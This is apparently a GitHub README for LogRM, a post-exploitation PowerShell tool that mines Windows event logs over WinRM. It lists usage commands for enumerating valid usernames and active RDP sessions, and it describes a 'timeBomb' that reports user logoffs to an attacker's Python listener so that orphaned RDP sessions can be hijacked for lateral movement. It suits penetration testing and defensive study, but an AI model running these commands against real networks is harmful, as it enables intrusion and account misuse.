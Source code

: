# LogRM
LogRM is a post exploitation powershell script which it uses windows event logs to gather information about internal network in a pentration testing engagment. It is not only useful for blue teams but also for red teams because some of its functionalities can be used for lateral movement. You will be able to use LogRM not only on a localhost machine but also in a remote machine using WinRM protocol which is by default enabled in a newly Windows versions. 


## Configuration

In some cases may be you need to configure WinRM protocol to be functional

On client side (attacker):

	winrm quickconfig
	winrm set winrm/config/client '@{TrustedHosts="*"}'
		
On the server side (victim):
		
	Enable-PSRemoting -Force
	winrm quickconfig


## Usage

Use can use the following event types:

1) Information EventID (4624) - An account was successfully logged on
2) Information EventID (4625) - An account failed to log on
3) Information EventID (4728) - A member was added to a security-enabled global group 
4) Information EventID (4732) - A member was added to a security-enabled local group
5) Information EventID (4733) - A member was removed from a security-enabled local group
6) Information EventID (4738) - A user account was changed
7) Information EventID (4647) - User initiated logoff
8) Information EventID (4688) - A new process has been created
9) Information EventID (4776) - The domain controller attempted to validate the credentials for an account


### Examples

The LogRM searching into newest 10(default value) entries into all event types.

```
PS> LogRM -user <username> -pass <password> -ip <remote winrm ip>
PS> LogRM -user <username> -pass <password> -fips <file with ips>
PS> LogRM -ip 127.0.0.1
```

Search into specific eventID using -eventID parameter
```
PS> LogRM -user <username> -pass <password> -ip <remote winrm ip> -eventID <eventID>
PS> LogRM -user <username> -pass <password> -fips <file with ips> -eventID <eventID>
PS> LogRM -ip 127.0.0.1 -eventID <eventID> 
```

![alt text](https://github.com/tasox/LogRM/blob/master/example1_.png)

If you use -newest parameter then you will be able to search into a specific quantity of entries and in many cases your results will be more accurate.

```
PS> LogRM -user <username> -pass <password> -ip <remote winrm ip> -newest <number>
PS> LogRM -user <username> -pass <password> -fips <file with ips> -newest <number>
PS> LogRM -ip 127.0.0.1 -newest <number>
```

![alt text](https://github.com/tasox/LogRM/blob/master/example2_.png)

Providing the -users flag you will get as a result some valid usernames. The LogRM searches into these event IDs 4624,4625,4776 

```
PS> LogRM -user <username> -pass <password> -ip <remote winrm ip> -users
PS> LogRM -user <username> -pass <password> -fips <file with ips> -users
PS> LogRM -ip 127.0.0.1 -users
```

In earlier windows versions for example Windows server 2008, you can not have more than 5 winrm connections with the same host

## Time Bomb 

TimeBomb is useful when you landed on a network host and you want to get a notification when the user is logged of and be able to use an RDP (Remote Desktop) connection. If the user has a remote desktop with another network host and after logging out left the remote desktop open then you could move into the network from an existing forgotten RDP connection. You can create a timer without creating or editing windows schedules and leave the host untouched. You have 3 option when you create a timeBomb:

1) now
2) once
3) trigger

Timebomb uses the following events:

1) Information EventID (4624) - An account was successfully logged on
2) Information EventID (4647) - User initiated logoff
3) Information Event ID (4778) - A session was reconnected to a Window Station
4) Information Event ID (4779) - A session was disconnected from a Window Station
5) Information Event ID (4800) - The workstation was locked
6) Information Event ID (4801) - The workstation was unlocked
7) Information Event ID (4802) - The screen saver was invoked
8) Information Event ID (4803) - The screen saver was dismissed

Tip1: Give as much as possible amount of entries in -newest parameter. For example: 5000

Tip2: If you want to get notifications only from users who have open RDP connection(s) before logged out then you should uncomment the line 785


#### An intro to windows events

Before use timebomb we have to learn the differences between windows events. Events 4778/4779 is fired up when the user is currently logged in and uses switch button to move quickly between users without locked or logout from his terminal. Events 4800 is fired up when the user press the button from keyboard (window+L) or with his mouse on start button press lockout. On the other hand 4801 is fired up after using ctrl+alt+del. Sometimes users uses screensavers not only for powersaving but also to lock their machines, in this case 4802/4803 are taking place. 

Information: In windows server 2008 events 4800/4801/4802/4803 are not created without a policy.


### Usage

The task is going to run now.
```
PS> timeBomb -task now -newest <give a big number> -reverseHost <Python server ip> -reversePort <Python server port>
PS> timeBomb -task now -ip 127.0.0.1 -newest <give a big number> -reverseHost <Python server ip> -reversePort <Python server port>
```

#### Example 1 - User is logged on

![alt text](https://github.com/tasox/LogRM/blob/master/Use_is_LoggedOn.png)


#### Example 2 - User is logged of

![alt text](https://github.com/tasox/LogRM/blob/master/User_LoggedOf.png)


The task is going to run once at specific time.
```
PS> timeBomb -task once -at 15:00 -newest <give a big number> -reverseHost <Python server ip> -reversePort <Python server port>
PS> timeBomb -task once -at 15:00 -ip 127.0.0.1 -newest <give a big number> -reverseHost <Python server ip> -reversePort <Python server port>
```

#### Example 1 - User is logged of

![alt text](https://github.com/tasox/LogRM/blob/master/timBomb_task_once.png)


The task is going to run and stop at specific time.
```
PS> timeBomb -task trigger -at 15:00 -stoptime 16:00 -newest <give a big number> -reverseHost <Python server ip> -reversePort <Python server port>
PS> timeBomb -task trigger -at 15:00 -stoptime 16:00 -ip 127.0.0.1 -newest <give a big number> -reverseHost <Python server ip> -reversePort <Python server port>
```

## Active Remote Desktop Sessions

RDPConn function gets only valid incoming RDP connections into the compromised host. By using this function you will be able to observe which users from which machines have connection with our host without interrupt their connection if we tried to login with the same credentials.

```
PS> RDPConn
PS> RDPConn -ip 127.0.0.1
```

#### Example 1

![alt text](https://github.com/tasox/LogRM/blob/master/RDP_winrm.png)



## Authors

* TasoX (@taso_x)



